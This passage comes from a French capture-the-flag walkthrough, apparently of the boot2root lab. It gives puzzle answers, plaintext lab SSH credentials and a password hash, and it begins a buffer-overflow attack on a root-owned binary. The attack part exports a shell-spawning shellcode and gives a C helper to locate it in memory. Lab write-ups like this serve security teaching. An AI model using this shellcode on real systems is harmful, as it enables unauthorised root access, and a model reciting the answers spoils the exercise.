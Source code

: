 Et comme la dernière partie classe les maillons par ordre décroissant selon le champ _value_ nous avons :

node | value | index |
---|---|---|---
4 | 0x000003e5 | 4 
2 | 0x000002d5 | 2 
6 | 0x000001b0 | 6 
3 | 0x0000012d | 3 
1 | 0x000000fd | 1 
5 | 0x000000d4 | 5 

Nous en concluons que le mot de passe final est : `4 2 6 3 1 5`.

Bravo ! Nous pouvons nous connecter en ssh avec le login : `thor` et le password : `Publicspeakingisveryeasy.126241207201b2149opekmq426135`

## turtle

Un fichier `turtle` va nous permettre d'obtenir le mot de passe pour accéder à la session de `zaz`.

Ce fichier contient des instructions de déplacement. Les utilisateurs de Python reconnaîtront les méthodes de la bibliothèque [Turtle](https://docs.python.org/3.0/library/turtle.html). En nettoyant le fichier et en appliquant le script `turtle.py` que nous avons créé, vous obtenez une inscription : `SLASH`.

En hashant ce résultat, nous obtenons : `646da671ca01bb5d84dbb5fb2238dc8e` pour le mot de passe de `zaz`.

## exploit_me

Un exécutable `exploit_me` est présent à la racine. Nous allons utiliser la technique du _buffer overflow_ pour cette partie car le _owner_ est _root_.

Rentrez directement dans le shell :

```bash
$> export SHELLCODE=$'\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x31\xdb\x89\xd8\xb0\x17\xcd\x80\x31\xdb\x89\xd8\xb0\x2e\xcd\x80\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80'
```

Ce qui correspond à l'ouverture d'un shell en `shellcode`.

Le programme suivant est à copier/coller, à compiler et exécuter. Il renvoit l'adresse à laquelle se trouve la variable d'environnement `SHELLCODE` (que nous avons donc modifié précédemment).

```C
#include <stdio.h>
#include <stdlib.h>

int main(int argc, char **argv)
{
    char* ptr = getenv("SHELLCODE");
    printf("%p\n", ptr);
}
```
